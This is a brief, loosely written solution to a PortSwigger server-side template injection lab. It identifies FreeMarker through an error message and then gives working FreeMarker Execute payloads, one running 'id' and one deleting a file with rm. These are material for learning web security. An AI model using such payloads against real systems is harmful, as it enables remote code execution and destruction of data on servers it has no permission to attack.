


# Lab: Server-side template injection using documentation

**Link**: https://portswigger.net/web-security/server-side-template-injection/exploiting/lab-server-side-template-injection-using-documentation

**Solution**:

This lab didn’t identity which template are not used.

We to identity the template we will try cause error in the code

So if we give it to him undefined name like the following, we will now that the template it used is freemarker based on Java

  

So, based on Java payloads

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection#java](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java)

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server Side Template Injection#freemarker](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#freemarker)

we will use this command as RCE

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("id")}`

  

to solve the lab we will remove txt file

`<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm /home/carlos/morale.txt")}.`

  

